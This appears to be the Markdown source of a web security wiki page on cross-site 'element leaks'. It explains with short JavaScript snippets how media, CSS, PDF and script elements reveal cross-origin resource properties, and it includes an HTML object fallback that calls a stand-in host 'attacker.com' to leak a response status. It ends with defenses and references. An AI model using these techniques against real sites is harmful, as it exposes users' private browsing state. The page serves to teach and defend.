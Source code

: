 +++
title = "Element leaks"
description = ""
category = "Attack"
abuse = [
    "HTMLElement",
]
defenses = [
    "SameSite Cookies"
]
menu = "main"
weight = 2
+++

Some HTML Elements might be used to leak a portion of data to a cross-origin page.
For example, the below media resources can leak information about its size, duration, type. 

- [HTMLMediaElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLMediaElement) leaks the media `duration` and the `buffered` times.
- [HTMLVideoElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLVideoElement) leaks the `videoHeight` and `videoWidth` 
  some browsers may also have `webkitVideoDecodedByteCount`, `webkitAudioDecodedByteCount` and `webkitDecodedFrameCount`
- [getVideoPlaybackQuality()](https://developer.mozilla.org/en-US/docs/Web/API/VideoPlaybackQuality) leaks the `totalVideoFrames`.
- [HTMLImageElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement) leaks the `height` and `width` but if the image is invalid they will be 0 
  and [`image.decode()`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement/decode) will get rejected.

It's possible to differentiate between media types via unique property for a given media type. For example, it is `videoWidth` for a `<video>`, or `duration` for an `<audio>`. The below snippet shows an example code that returns the type of a resource. 
```javascript
async function getType(url) {
    // Detect if resource is audio or video
    let media = document.createElement("video");
    media.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (media.videoWidth) {
    return "video";
    } else if (media.duration) {
    return "audio"
    }
    // Detect if resource is an image
    let image = new Image();
    image.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (image.width) return "image";
}
```

## Abusing CORB
[CORB]({{< ref "/docs/attacks/browser-features/corb.md" >}}) is a feature of Chrome that makes responses empty if the wrong content type is used.
This means that if the type is wrong it’s not cached.
An `ifCached` function can be found in [Cache Probing]({{< ref "/docs/attacks/cache-probing.md" >}}) article.
```javascript
async function isType(url, type = "script") {
  let error = false;
  // Purge url
  await ifCached(url, true);
  // Attempt to load resource
  let e = document.createElement(type);
  e.onerror = () => error = true;
  e.src = url;
  document.head.appendChild(e);
  // Wait for it to be cached if its allowed by CORB
  await new Promise(resolve => setTimeout(resolve, 500));
  // Cleanup
  document.head.removeChild(e);
  // Fix for "images" that get blocked differently.
  if (error) return false
  return ifCached(url);
}
```

## Abusing getComputedStyle
[getComputedStyle](https://developer.mozilla.org/en-US/docs/Web/API/Window/getComputedStyle) can be used to read an embedded to the current page CSS style sheets. Including those loaded from different origins. 
This function just checks if there has been a style applied to the body.
```javascript
async function isCSS(url) {
    let link = document.createElement('link');
    link.rel = 'stylesheet';
    link.type = 'text/css';
    link.href = url;
    let style1 = JSON.stringify(getComputedStyle(document.body));
    document.head.appendChild(link);
    await new Promise(resolve => setTimeout(resolve, 500));
    let style2 = JSON.stringify(getComputedStyle(document.body));
    document.head.removeChild(link);
    return (style1 !== style2);
}
```
## PDF
There are [Open URL Parameters](https://bugs.chromium.org/p/chromium/issues/detail?id=64309#c113) that allow some control over the content such as `zoom`, `view`, `page`, `toolbar`, `nameddest`. Firefox has also implemented `search`.
For Chrome, a PDF can be detected with [Frame Counting]({{< ref "/docs/attacks/frame-counting.md" >}}) because the document is internally embedded into a page.
This can be confirmed by waiting for a message from the PDF scripting API. [^pdf-api]
```javascript
async function isPDF(URL) {
    let w = open(URL);
    await new Promise(resolve => setTimeout(resolve, 1500));
    if (window.length !== 1) return false;
    let pdf;
    window.addEventListener("message", e => {
        if (e.origin === 'chrome-extension://mhjfbmdgcfjbbpaeojofohoefgiehjai') pdf = true;
    });
    w[0].postMessage("initialize", "*");
    await new Promise(resolve => setTimeout(resolve, 5));
    return pdf;
}
```
It’s also possible to abuse this API to send actions like `getSelectedText`, `selectAll`, `print`, `getThumbnail`, which potentially can leak information about the document's contents. 

```javascript
let w = open(URL);
w[0].postMessage({type: 'print'}, "*");
```
{{< hint info >}}
The above techniques doesn't seem to work in Firefox.
{{< /hint >}}

As a protection against leaking document's content cross-origin, the responses are limited to `documentLoaded` and `passwordPrompted` for cross-origin requests. 

## Script tag
When a cross-origin script is included on a page it's not directly possible to read its contents. However, if a script uses any built-in functions, it's possible to overwrite them and read their arguments which might leak valuable information [^script-leaks].
```javascript
let hook = window.Array.prototype.push;
window.Array.prototype.push = function() {
    console.log(this);
    return hook.apply(this, arguments);
}
```

## When Javascript can’t be used
If JavaScript is disabled it's still possible to leak some information about cross-origin resources. For example, an `<object>` can be used to detect whether a resource responds with *Error Code*. What happens is that if a resource `//example.org/resource` returns an error in `<object data=//example.org/resource>fallback</object>` then `fallback` will be rendered [^fallback] [^leaky-images]. It's possible to inject another `<object>` inside that will leak the information to an outside server, or detect it with CSS [^xsleaks-nojs].
The below code embeds `//example.org/404` and if it responds with *Error* then a request to `//attacker.com/?error` is also made as a fallback.
```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```

## Defense

| Attack Alternative | [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :----------------: | :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
|     Type leaks     |                                         ✔️                                         |                         ❌                          |                                ❌                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |
## References
[^script-leaks]: The Unexpected Dangers of Dynamic JavaScript. [link](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf)   
[^fallback]: HTML Standard, [3.2.5.2.6 Embedded content], [link](https://html.spec.whatwg.org/multipage/dom.html#fallback-content)  
[^leaky-images]: Leaky Images: Targeted Privacy Attacks in the Web, [3.4 Linking User Identities], [link](https://www.usenix.org/system/files/sec19fall_staicu_prepub.pdf)  
[^xsleaks-nojs]: [https://twitter.com/terjanq/status/1180477124861407234](https://twitter.com/terjanq/status/1180477124861407234)  
[^pdf-api]: pdf_scripting_api.js, [link](https://source.chromium.org/chromium/chromium/src/+/main:chrome/browser/resources/pdf/pdf_scripting_api.js)  
